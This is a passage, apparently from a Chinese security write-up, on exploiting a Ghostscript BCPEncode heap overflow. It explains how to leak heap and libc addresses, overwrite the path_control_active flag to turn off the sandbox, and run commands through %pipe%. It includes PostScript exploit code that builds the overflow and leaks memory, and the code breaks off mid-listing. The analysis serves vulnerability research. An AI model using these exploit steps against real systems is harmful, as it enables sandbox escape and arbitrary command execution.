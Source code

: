 [![](assets/1706771701-e7e4e1b3fb14163c71dbb0af49297a1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202454-685400f2-bea1-1.png)

但是还有一个问题，system的函数地址我们并不知道。不过我们可以找到这样一个结构：在procss结构之前，有一个读和写功能，这便可以从堆中泄漏libc地址并调用。有了这些信息，利用方法就相当简单了。

作为一种完整的语言，PostScript提供了在磁盘上读写文件的方法。它甚至可以通过写入%pipe%设备来调用子流程。显然，由于Ghostscript经常处理来自不可信来源的文件，因此它调用了一个沙箱，阻止PostScript程序读取或写入某个白名单之外的文件。此验证是在base/gpmisc.c中的gp\_validate\_path\_len函数中完成的。可以发现前几行是用来检查沙箱是否处于活动状态：

```plain
/* mem->gs_lib_ctx can be NULL when we're called from mkromfs */
if (mem->gs_lib_ctx == NULL ||
    mem->gs_lib_ctx->core->path_control_active == 0)
    return 0;
```

mem变量实际上是复杂上下文结构的一个子结构，它保留了当前执行状态中的所有信息。`path_control_active`变量可在`i_ctx_p->memory->current->gs_lib_ctx->core->path_control_active`中找到。上下文结构也位于堆中，因此泄漏堆指针应该足以定位path\_control\_active变量。通过任意写入，可以覆盖此变量，而不会导致进程崩溃，然后使用%pipe%语句即可调用任何命令。

从堆中获取泄漏很简单。在流结构中，覆盖游标读取指针（curr->cursor->r->ptr）将强制下一个流复制所有数据，直到该指针为止。但是，在s\_xBCPE\_process函数的最后一行（以及稍后在stream\_compact函数中），此指针会被覆盖到其先前的值。然后，下一个字节流将数据复制到stdout：

```plain
% - -> a long string
/createOverflow {
    ()
    1 1 2045 {pop <41> concatstrings}for
    <1313> concatstrings %escaped char
    1 1 15  {pop <42> concatstrings} for
}def
% (leak) -> leak as hexadecimal string 
/leakAsString{
    /myString 16 string def
    /asciiToHexFilter myString /ASCIIHexEncode filter def
    asciiToHexFilter exch writestring
    asciiToHexFilter flushfile
    myString
}def 
% - -> a 8 bytes leak from the heap (i/o pool)
/leakMemory{
    /leakBuffer 5000 string def
    /leakMemoryFilter leakBuffer /NullEncode filter /BCPEncode filter def
    createOverflow
    <4343434343434343> concatstrings % s->templat
    <4444444444444444> concatstrings % s->memory
    <4545454545454545> concatstrings % s->report_error
    <4646464646464646> concatstrings % s->min_left
    1 1 80   {pop <47> concatstrings }  for   % s->error_string
```